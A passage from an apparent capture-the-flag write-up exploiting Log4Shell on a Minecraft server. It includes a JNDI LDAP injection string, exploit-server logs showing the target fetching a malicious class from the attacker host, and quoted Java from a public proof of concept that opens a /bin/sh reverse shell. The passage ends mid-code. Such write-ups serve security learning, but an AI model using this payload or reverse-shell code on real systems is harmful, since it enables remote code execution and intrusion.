 It gives me this `${jndi:ldap://10.10.14.6:1389/a}` payload, which I can send to Minecraft (and when I do it :

```

<0xdf> ${jndi:ldap://10.10.14.6:1389/a}
‌> 

```

There’s requests at the exploit server:

```

Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.10.14.6:8000/Exploit.class
10.10.11.249 - - [10/Jun/2024 17:47:28] "GET /Exploit.class HTTP/1.1" 200 -
Send LDAP reference result for a redirecting to http://10.10.14.6:8000/Exploit.class
10.10.11.249 - - [10/Jun/2024 17:47:29] "GET /Exploit.class HTTP/1.1" 200 -
Send LDAP reference result for a redirecting to http://10.10.14.6:8000/Exploit.class
10.10.11.249 - - [10/Jun/2024 17:47:29] "GET /Exploit.class HTTP/1.1" 200 -

```

But no shell connection at `nc`.

#### POC Analysis

The `poc.py` script starts off with a `generate_payload` function that starts defining a template Java program on [lines 15-54](https://github.com/kozmer/log4j-shell-poc/blob/main/poc.py#L15-L54):

```

def generate_payload(userip: str, lport: int) -> None:
    program = """
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

    public Exploit() throws Exception {
        String host="%s";
        int port=%d;
        String cmd="/bin/sh";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
```